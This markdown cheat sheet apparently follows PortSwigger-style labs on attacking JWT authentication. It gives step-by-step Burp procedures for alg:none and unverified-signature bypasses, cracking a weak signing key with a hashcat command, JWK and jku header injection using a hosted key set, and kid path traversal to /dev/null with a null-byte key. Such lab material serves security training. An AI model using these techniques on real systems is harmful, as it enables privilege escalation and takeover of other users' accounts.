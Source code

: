 
# Attacking JWT Methods

## JWT authentication bypass via unverified signature

```bash
"username":"delta",  
## Change This To
"username":"admin",
```

## JWT authentication bypass via flawed signature verification

```bash
Select The Header Part From Inspecter Section In Burp
Decode Base 64
Change alg to none "alg":"none"
Click apply changes
"username":"delta",  
## Change This To
"username":"admin",
Then Remove End/signature part and send request
if fails add . at end then resend
```

## JWT authentication bypass via weak signing key
```bash
Log In With Your Credentials. Copy JWT from cookie
hashcat -a 0 -m 16500 <YOUR-JWT> /path/to/jwt.secrets.list
# Now Hashcat Will Show Us The Cracked Secret
In Burp, go to the JWT Editor Keys tab and click New Symmetric Key. In the dialog, click Generate to generate a new key in JWK format.
Replace the generated value for the k property with the Base64-encoded secret.
Click Ok
Now we have new Signature 
Burp Repeater and switch to the extension-generated JSON Web Token message editor tab. 
In the payload, change the value of the sub claim to administrator
At the bottom of the tab, click Sign, then select the key that you generated in the previous section.
send request DONE!!
```

## JWT authentication bypass via jwk header injection
- JSON WEB KEY sometimes used to embed the correct verification key directly in the token

```bash
    "kty" (Key Type): This parameter specifies the type of key. It can take values like "RSA" for RSA keys, "EC" for elliptic curve keys, or "oct" for symmetric keys.

    "kid" (Key ID): This parameter provides a unique identifier for the key. It helps in key management scenarios where multiple keys are involved.

    "alg" (Algorithm): This parameter indicates the algorithm associated with the key. For example, "RS256" represents the RSA signature algorithm with SHA-256.

    "use" (Key Use): This parameter specifies the purpose of the key, such as "sig" for a key used for signing or "enc" for encryption.

    "n" and "e" (RSA-specific): These parameters represent the modulus and exponent of an RSA public key.

    "crv" and "x"/"y" (Elliptic Curve-specific): These parameters represent the curve type and the coordinates of the public key point on the curve.

    "k" (Symmetric key): This parameter represents the value of the symmetric key.
```

- How to do JWK header injection
 ```
Go to the JWT Editor Keys tab in Burp's main tab bar.
Click New RSA Key.
lick Generate to automatically generate a new key pair, then click OK to save the key.
in JWT  change the value of the sub claim to administrator. 
At the bottom of the JSON Web Token tab, click Attack, then select Embedded JWK. When prompted, select your newly generated RSA key and click OK. 
In the header of the JWT, observe that a jwk parameter has been added containing your public key. 
Send request DONE!!
 ```


## JWT authentication bypass via jku header injection
When the "jku" parameter is present in the JWT header, it indicates that the public keys needed to verify the token's signature can be found at the specified URL. This allows for more efficient key management, as the keys can be rotated or updated independently of the tokens themselves.
```bash
{
  "alg": "RS256",
  "typ": "JWT",
  "jku": "https://example.com/keys.jwks"
}
```

- Solving The Lab

```bash
Go to the JWT Editor Keys Click New RSA Key.  click Generate to automatically generate a new key pair, then click OK to save the key
open exploit.html
add following code inside boy tag



{
    "keys": [

    ]
}

Back on the JWT Editor Keys tab, right-click on the entry for the key that you just generated, then select Copy Public Key as JWK. 
Paste the JWK into the keys array on the exploit server, then store the exploit. The result should look something like this: 
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "893d8f0b-061f-42c2-a4aa-5056e12b8ae7",
            "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw"
        }
    ]
}

in the header of the JWT, replace the current value of the kid parameter with the kid of the JWK that you uploaded to the exploit server. 
Add a new jku parameter to the header of the JWT. Set its value to the URL of your JWK Set on the exploit server.
{
  "alg": "RS256",
  "typ": "JWT",
  "jku": "https://example.com/keys.jwks"
}

change the value of the sub claim to administrator.
click Sign, then select the RSA key that you generated in the previous section
then click OK. 
DONE!!

```


### JWT authentication bypass via kid header path traversal
 the server uses the kid parameter in JWT header to fetch the relevant key from its filesystem
```bash
Go to the JWT Editor Keys tab in Burp's main tab bar. Click New Symmetric Key. click Generate
Replace the generated value for the k property with a Base64-encoded null byte (AA==). 
Click OK to save the key. 
change the value of the kid parameter to a path traversal sequence pointing to the /dev/null file:
../../../../../../../dev/null 
 change the value of the sub claim to administrator
 click Sign, Clck ok
 DONE !!

```
